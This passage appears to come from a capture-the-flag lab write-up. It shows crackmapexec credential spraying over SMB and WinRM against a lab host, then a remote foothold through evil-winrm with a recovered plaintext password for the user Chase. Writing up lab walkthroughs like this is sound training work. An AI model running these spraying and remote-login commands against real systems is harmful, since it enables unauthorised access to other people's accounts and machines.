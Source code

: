 ### 4.3 Credential Spraying

```bash
crackmapexec smb 10.10.10.149 -u users.txt -p passwds.txt --continue-on-success
```

![](screenshots/crackmapexec_smb_chase.png)

New valid user: **Chase**

Check WinRM access:

```bash
crackmapexec winrm 10.10.10.149 -u 'Chase' -p 'Q4)sJu\Y8qz*A3?d'
```

![](screenshots/crackmapexec_winrm_chase.png)

Access confirmed.

---
## 5. Foothold

### 5.1 Evil-WinRM Access

```bash
evil-winrm -i 10.10.10.149 -u 'Chase' -p 'Q4)sJu\Y8qz*A3?d'
```

![](screenshots/user_flag.png)
